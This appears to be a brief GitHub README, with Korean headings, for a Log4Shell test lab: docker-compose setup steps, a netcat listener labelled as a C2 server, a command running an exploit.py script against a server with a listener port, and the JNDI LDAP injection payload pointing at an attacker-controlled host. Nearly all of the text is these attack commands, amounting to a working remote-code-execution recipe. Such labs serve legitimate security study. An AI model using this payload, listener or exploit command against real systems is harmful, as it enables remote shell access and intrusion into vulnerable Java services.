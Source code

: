 # java-log4shell
log4shell test


# 환경구성
docker-compose build
docker-compose up

# 데이터 세팅
http://[IP]:8080/log4shell/create -> 데이터 삽입

# C2 서버
nc -lvnp 9001

pip3 install -r requirements.txt
python3 exploit.py --userip $(serverip) --webport 8000 --lport 9001

# 페이로드 
${jndi:ldap://[IP]:1389/a}